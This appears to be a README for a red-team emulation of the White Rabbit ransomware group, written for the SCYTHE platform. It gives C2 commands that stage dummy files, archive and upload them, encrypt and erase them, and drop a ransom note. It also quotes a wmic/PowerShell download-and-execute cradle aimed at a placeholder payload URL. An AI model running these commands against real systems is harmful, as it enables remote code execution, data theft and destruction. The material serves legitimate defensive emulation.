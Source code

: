 # White Rabbit

## Cyber Threat Intelligence
White Rabbit was first observed attacking a US bank in December 2021 using double extortion techniques similar to [Egregor](https://github.com/scythe-io/community-threats/tree/master/Egregor).[^1] As a relateively new ransomware group, TTPs and cyber threat intelligence is not as abundant and available as other ransomware threats. This threat emulates the adversary at the technique level.

## Automated Emulation
1. Download and import the threat in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under WhiteRabbit/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/WhiteRabbit
4. Create a new campaign with HTTPS.
5. Import from Existing Threat: WhiteRabbit_v1
6. Launch the Campaign
7. As per CTI, execution of White Rabbit was done using ```wmic process call create "cmd /c powershell.exe -nop -ep bypass -c iex (New-Object System.Net.WebClient).DownloadString ('https://payloadurl/')"```

## Manual Emulation
Launch a campaign with the C2 parameters you desire. Once you have a shell, execute the following procedures:
```
loader --load run
run cmd /c mkdir "%USERPROFILE%\Desktop\WhiteRabbit"
loader --load file
file --create --path "%USERPROFILE%\Desktop\WhiteRabbit\important_files.doc" --size 2MB --count 50
run powershell "Compress-Archive -Path $env:userprofile\Desktop\WhiteRabbit -CompressionLevel Optimal -Destination $env:userprofile\Desktop\WhiteRabbit\exfil.zip"
loader --load uploader
uploader --remotepath "%USERPROFILE%\Desktop\WhiteRabbit\exfil.zip"
loader --load crypt
crypt --target "%USERPROFILE%\Desktop\WhiteRabbit\" --encrypt --password "Wh1teR4bb1t" --erase --recurse
loader --load downloader
downloader --src "VFS:/shared/WhiteRabbit/README.scrypt.txt" --dest "%USERPROFILE%\Desktop\WhiteRabbit\README.scrypt.txt"
run wmic process call create "cmd /c powershell.exe -nop -ep bypass notepad.exe $env:userprofile\Desktop\WhiteRabbit\README.scrypt.txt"
run cmd /c rmdir /Q /S %USERPROFILE%\Desktop\WhiteRabbit"
```

## References
- [TrendMicro](https://www.trendmicro.com/en_us/research/22/a/new-ransomware-spotted-white-rabbit-and-its-evasion-tactics.html)

[^1]: [TrendMicro](https://www.trendmicro.com/en_us/research/22/a/new-ransomware-spotted-white-rabbit-and-its-evasion-tactics.html)